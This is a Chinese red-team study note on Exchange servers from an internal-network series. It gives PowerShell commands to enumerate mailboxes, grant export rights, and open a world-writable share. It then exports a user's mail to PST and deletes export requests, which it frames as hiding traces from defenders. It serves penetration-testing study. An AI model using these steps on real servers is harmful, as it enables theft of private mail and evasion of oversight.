 ```yaml
---
title: 【内网学习笔记】25、Exchange 邮件服务器
date: 2021-09-08 10:52:49
id: 210908-105249
img: https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/20210908104558.png
tags:
- 红队
- 学习笔记
- 内网
categories:
- 内网学习笔记
---
```


## 1、Exchange 的基本操作

> 在 Exchange 服务器上的 PowerShell 里进行以下操作

将 Exchange 管理单元添加到当前会话中

```
add-pssnapin microsoft.exchange*
```

查看邮件数据库

```
Get-MailboxDatabase -server "dc"
```

查询数据库的物理路径

```
Get-MailboxDatabase -Identity 'Mailbox Database 0761701514' | Format-List Name,EdbFilePath,LogFolderPath
```

获取现有用户的邮件地址

```
Get-Mailbox | Format-table Name,WindowsEmailAddress
```

查看指定用户的邮箱使用信息

```
Get-Mailboxstatistics -Identity Administrator | Select Dispayname,ItemCount,TotalItemSize,TotalTimeSize,LastLogonTime
```

获取用户邮箱中的邮件数量，通过该命令还可以列出那些用户未登录过邮箱

```
Get-Mailbox -ResultSize Unlimited | Get-Mailboxstatistics | Sort-Object TotalItemSize -Descend
```

## 2、导出指定的电子邮箱

Exchange Server 2007 中需要使用 ExportMailBox 命令，在 Exchange Server 2010 SP1 及以后的版本中可以使用图形化界面导出，也可以使用 PowerShell

如果想要导出 PTS 格式的邮件文件，则需要为用户配置导出/导出权限。

### 配置用户的导入导出权限

查看用户权限

```
Get-ManagementRoleAssignment -role "Mailbox Import Export"
```

将 Administrator 用户添加到 Mailbox Import Export  角色组里，将用户添加到角色组后，需要重启 Exchange 服务才能执行导出操作

```
New-ManagementRoleAssignment -Name "Import Export_Domain Admins" -User "Administrator" -Role "Mailbox Import Export"
```

删除刚刚添加的 Mailbox Import Export 角色组中的用户

```
Remove-ManagementRoleAssignment "Import Export_Domain Admins" -Confirm:$false
```

### 设置网络共享文件夹

不论使用哪种方式导出邮件，都需要将文件放置在 UNC（Universal Naming Convention，通用命名规则，也称通用命名规范）路径下

类似于 “\\hostname\sharename”、“\\ipaddress\sharename” 的网络路径下，sharename 为网络共享名称。

首先开启共享，将 C 盘 inetpub 文件夹设置为 everyone 可读写，执行如下命令：

```
net share inetpub=c:\inetpub /grant:everyone,full
```

### 导出用户的电子邮件

使用 PowerShell 导出电子邮件，用户的电子邮箱目录一般为Inbox（收件箱）、SentItems（已发送邮件）、DeleteItems（已删除邮件）、Drafts（草稿）等

```
New-MailboxExportRequest -Mailbox administrator -FilePath \\192.168.7.77\inetpub\administrator.pst
```

使用图形化界面导出电子邮件，访问 https://127.0.0.1/ecp，打开 Exchange 管理中心的登录界面。

输入账号密码进入 Exchange 管理中心，点击「...」更多按钮，选择「导出到 PST 文件」即可进行导出操作。

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/20210908104558.png)

### 管理导出请求

不论是通过 Powershell 导出还是通过图形化的方式导出，都会在 Exchange 中生成一条告警信息，这些信息有助于 BT 发现服务器里的异常行为，通过以下命令，可以查看之前的导出请求记录信息。

```
Get-MailboxExportRequest
```

将指定用户已经完成的导出请求删除

```
Remove-MailboxExportRequest -Identity Administrator\MailboxExport
```

删除所有已完成的导出请求

```
Get-MailboxExportRequest -Status Completed | Remove-MailboxExportRequest
```

删除所有导出请求，包括完成和失败的请求

```
Get-MailboxExportRequest | Remove-MailboxExportRequest
```

> 参考文章：
>
> [https://www.cnblogs.com/micr067/p/12307519.html](https://www.cnblogs.com/micr067/p/12307519.html)
>
> 更多信息欢迎关注我的微信公众号：TeamsSix

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/TeamsSix_Subscription_Logo2.png)
